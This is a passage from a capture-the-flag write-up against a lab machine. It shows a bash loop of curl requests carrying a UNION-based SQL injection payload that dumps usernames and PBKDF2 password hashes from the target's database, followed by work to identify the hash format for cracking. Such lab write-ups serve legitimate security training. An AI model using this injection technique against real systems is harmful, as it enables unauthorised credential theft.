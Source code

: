 
Since ozdb jumps out as most interesting, I’ll check out the columns for those
tables:

    
    
    root@kali# cat db_dump/ozdb-tickets_gbw.columns 
    ozdb:tickets_gbw:id
    ozdb:tickets_gbw:name
    ozdb:tickets_gbw:desc
    root@kali# cat db_dump/ozdb-users_gbw.columns 
    ozdb:users_gbw:id
    ozdb:users_gbw:username
    ozdb:users_gbw:password
    

#### users Table

The users table looks particularly interesting, and I can write a bash loop to
dump it out:

    
    
    root@kali# for i in $(seq 0 10); do curl -s "http://10.10.10.96/users/'%20union%20select%20concat(id,':',username,':',password)%20from%20ozdb.users_gbw%20LIMIT%201%20OFFSET%20${i};--%20-" | jq -r .username; done
    1:dorthi:$pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78
    2:tin.man:$pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk
    3:wizard.oz:$pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY
    4:coward.lyon:$pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY
    5:toto:$pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg
    6:admin:$pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ
    null
    null
    null
    null
    null
    

#### Crack the Hashes

Those hashes are not immediately an obvious match on my [typical cheat sheet
for hashes](https://hashcat.net/wiki/doku.php?id=example_hashes). They look
kind of like Django (id 10000), but aren’t a perfect match. They also look
kind of like PBKDF2-HMAC-SHA256 (id 10900).

In doing some reading about PBKDF2, I came across [this
page](https://passlib.readthedocs.io/en/1.6.5/lib/passlib.hash.pbkdf2_digest.html)
on the python implementation in passlib, and the output looked the same. I
tried it for myself, and it is a match:

    
    
    Python 3.6.6 (default, Jun 27 2018, 14:44:17) 
    [GCC 8.1.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> from passlib.hash import pbkdf2_sha256
    >>> pbkdf2_sha256.encrypt("password", rounds=5000)
    '$pbkdf2-sha256$5000$CcGYM0ZIqbXWGsM4x7hX6g$DbQp1makXRDjuCrOhiBB6B2UZb3p7YHnvN0h01bh43Q'
    